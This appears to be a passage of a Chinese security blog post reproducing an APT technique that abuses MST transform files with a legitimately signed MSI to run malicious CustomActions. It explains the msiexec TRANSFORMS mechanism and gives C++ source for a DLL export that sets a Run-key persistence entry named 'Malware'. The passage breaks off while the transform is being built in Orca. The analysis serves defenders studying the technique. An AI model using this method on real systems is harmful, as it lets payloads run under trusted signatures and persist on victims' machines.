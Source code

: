 MST文件本身不独立运行，必须依附于 MSI，在安装 MSI 文件时，通过命令行参数指定 MST 文件：msiexec /i xxx.msi TRANSFORMS=xxx.mst；  
  
MST 文件不会改变原始 MSI 文件的内容，而是在安装时动态应用修改。当 MSI 文件与 MST 文件一起使用时，Windows Installer 会先在内存中先将 MST 文件中的修改应用到 MSI 文件上，生成一个临时的“虚拟 MSI”，然后再执行安装过程。  
  
**3.2 MST 白加黑利用思路**  
：  
  
寻找一个具有合法签名的 MSI 文件，创建它的 MST 文件，在其中添加   
CustomActio  
n 自定义操作（例如执行一个 DLL 中的导出函数，或者执行恶意脚本代码等），并添加 DLL/脚本 的 Binary 数据，将自定义操作添加到安装执行的流程中；  
  
然后生成对应的 MST 文件  
后与合法 MSI 文件一起投递，通过脚本或快捷方式执行带 TRANSFORMS 参数的 MSI 文件安装。  
# 0x04 复现过程  
  
这里我选择的自定义动作是执行DLL的导出函数。  
  
先准备一个DLL，导出一个包含恶意逻辑的函数，像海莲花应该是释放了下一阶段的白加黑组件并将其写入了启动项。这里我就简单写了个注册表启动项。注意这个导出函数需要一个 MSIHANDLE 类型的参数：  
```
extern "C" __declspec(dllexport) UINT __stdcall RunMyCode(MSIHANDLE hInstall) {
    // 懒得写了，假设这里是恶意程序或后续白+黑组件的拉取或释放
    // ......
    // 持久化
    HKEY hKey;
    LSTATUS status = RegOpenKeyExA(
        HKEY_LOCAL_MACHINE,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        0,
        KEY_WRITE,
        &hKey
    );

    if (status == ERROR_SUCCESS) {
        const char* exePath = "C:\\Program Files\\Test\\test.exe";
        status = RegSetValueExA(
            hKey,
            "Malware",
            0,
            REG_SZ,
            (const BYTE*)exePath,
            (DWORD)(strlen(exePath) + 1)
        );
        RegCloseKey(hKey);
    }
    return ERROR_SUCCESS; // 必须返回ERROR_SUCCESS否则MSI会回滚安装
}
```  
  
寻找一个合法的 MSI，我也是用了微软的 WindowsPCHealthCheckSetup.msi ，然后将其放入Orca 中，选择新   
Transform 文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibSvoPdZSiaUoouGvTWibxUXjRiaq89dnsnxGGMyjq3wfpVwiamsVGLSTY9qAzWsC93rCG8Qt155sLow3g/640?wx_fmt=png&from=appmsg "")  
  